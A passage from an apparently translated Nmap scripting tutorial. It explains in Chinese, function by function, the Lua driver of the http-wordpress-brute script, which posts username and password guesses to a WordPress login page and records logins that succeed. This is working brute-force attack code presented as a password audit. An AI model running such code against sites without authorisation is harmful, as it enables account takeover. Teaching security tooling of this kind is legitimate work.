 ```
        new = function(self, host, port, options)
            local o = {}
            setmetatable(o, self)
            self.__index = self
            o.host = stdnse.get_script_args('http-wordpress-brute.hostname') or host
            o.port = port
            o.uri = stdnse.get_script_args('http-wordpress-brute.uri') or DEFAULT_WP_URI
            o.options = options
            return o
          end,
```

+   `connect`函数可以留空，因为在这种情况下不需要连接到套接字；我们正在对 HTTP 服务执行暴力破解密码审计攻击（库`http`在我们的下一个登录函数中使用时负责打开和关闭必要的套接字）：

```
         connect = function( self )
            return true
          end,
```

+   `disconnect`函数也可以在这个脚本中留空：

```
        disconnect = function( self )
            return true
          end,
```

+   `check`函数用作在我们开始暴力破解密码攻击之前的健全性检查。请注意，这个函数最近被标记为不推荐使用，这些检查将需要在将来的版本中移动到主要部分：

```
          check = function( self )
            local response = http.get( self.host, self.port, self.uri )
            stdnse.print_debug(1, "HTTP GET %s%s", stdnse.get_hostname(self.host),self.uri)
            -- Check if password field is there
            if ( response.status == 200 and response.body:match('type=[\'"]password[\'"]')) then
              stdnse.print_debug(1, "Initial check passed. Launching brute force attack")
              return true
            else
              stdnse.print_debug(1, "Initial check failed. Password field wasn't found")
            end

            return false
```

+   最后是`login`函数：

```
         login = function( self, username, password )
            -- Note the no_cache directive
            stdnse.print_debug(2, "HTTP POST %s%s\n", self.host, self.uri)
            local response = http.post( self.host, self.port, self.uri, { no_cache = true }, nil, { [self.options.uservar] = username, [self.options.passvar] = password } )
                -- This redirect is taking us to /wp-admin
            if response.status == 302 then
              local c = creds.Credentials:new( SCRIPT_NAME, self.host, self.port )
              c:add(username, password, creds.State.VALID )
              return true, brute.Account:new( username, password, "OPEN")
            end

            return false, brute.Error:new( "Incorrect password" )
          end,
```
